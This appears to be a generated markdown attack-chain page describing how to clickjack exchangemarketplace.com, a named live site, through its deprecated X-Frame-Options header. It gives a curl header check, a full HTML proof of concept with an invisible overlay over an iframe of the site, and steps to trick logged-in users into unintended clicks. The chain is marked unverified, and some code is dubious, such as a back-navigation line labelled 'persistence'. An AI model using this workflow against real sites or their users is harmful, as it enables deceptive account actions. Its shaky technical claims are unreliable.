

# Clickjacking Exploitation on exchangemarketplace.com via Deprecated X-Frame-Options

Multi-stage attack chain demonstrating a complete attack workflow for exploiting clickjacking on exchangemarketplace.com, where the site's improper X-Frame-Options header (set to ALLOW-FROM https://exchangemarketplace.com) is ignored by modern browsers, enabling framing in malicious iframes to deceive users into sensitive actions.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Low |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Browser-Unspecified]]
- [[commands/curl-check-headers]]

### Target Environment

- Web platform
- Access to exchangemarketplace.com
- No specific ports or services required beyond HTTP/HTTPS

### Initial Access Requirements

- Public access to the target site
- Ability to create and host HTML files (local or remote)
- User must be logged in to the target site for maximum impact

## Detailed Attack Procedures

### Step 1: Identify Clickjacking Vulnerability
procedure: [[procedures/Check-Security-Headers-for-Clickjacking]]

**Objective**: Verify the absence of effective frame-busting protections by inspecting security headers.

**Instructions**: Use [[commands/curl-check-headers]] to fetch and examine the X-Frame-Options header from the target site:

```bash
curl -I https://exchangemarketplace.com
```

Look for the X-Frame-Options response header; if it's set to ALLOW-FROM https://exchangemarketplace.com, it's deprecated and ineffective in modern browsers like Chrome or Firefox.

**Expected Output**: HTTP response headers including `X-Frame-Options: ALLOW-FROM https://exchangemarketplace.com`.

**Success Indicators**:
- Deprecated X-Frame-Options value confirmed
- No DENY or SAMEORIGIN enforcement detected

### Step 2: Create Malicious Proof-of-Concept
procedure: [[procedures/Create-Clickjacking-Proof-of-Concept]]

**Objective**: Build an HTML page that frames the target site and overlays invisible elements to capture clicks intended for the framed content.

**Instructions**: Create an HTML file with the following structure, embedding an iframe for https://exchangemarketplace.com and JavaScript to handle onload events and position overlays:

```html
<!DOCTYPE html>
<html>
<head>
    <title>Clickjacking PoC</title>
    <style>
        iframe { position: absolute; top: 0; left: 0; width: 100%; height: 100%; }
        .overlay { position: absolute; top: 100px; left: 100px; width: 200px; height: 50px; opacity: 0.01; z-index: 1; }
    </style>
</head>
<body>
    <div class="overlay" onclick="performAction()"></div>
    <iframe src="https://exchangemarketplace.com" onload="this.style.display='block';"></iframe>
    <script>
        function performAction() {
            // Simulate click on framed content, e.g., inbox button at specific coordinates
            alert('Tricked click!');
        }
        if (window.history.length > 1) { window.history.go(-1); } // Persistence
    </script>
</body>
</html>
```

Save this as `clickjacking-poc.html`. The overlay tricks users into clicking hidden elements that interact with the framed site.

**Expected Output**: A functional HTML file ready for loading.

**Success Indicators**:
- HTML file created without errors
- Iframe loads the target site when tested locally

### Step 3: Reproduce Attack in Browser
procedure: [[procedures/Reproduce-Clickjacking-in-Browser]]

**Objective**: Load the PoC in a browser while logged into the target site to demonstrate unauthorized actions.

**Instructions**: Open the saved `clickjacking-poc.html` file in a web browser. Ensure you're logged into https://exchangemarketplace.com in the same browser session. Interact with the page; clicks on the invisible overlay will trigger actions in the framed site, such as accessing the inbox or browsing stores.

**Expected Output**: The target site loads in the iframe without frame-busting, and overlay clicks perform unintended actions.

**Success Indicators**:
- Site frames successfully without restrictions
- User actions (e.g., logout, search) execute via tricked clicks
- No browser warnings about framing

## Attack Chain Summary

### Key Achievements

1. Confirmed clickjacking vulnerability through header inspection
2. Created a deceptive PoC to frame the site and overlay interactions
3. Demonstrated potential for unauthorized sensitive actions on logged-in accounts

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[Drive-by Compromise]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---

*Last updated: 2023-10-01T00:00:00Z*
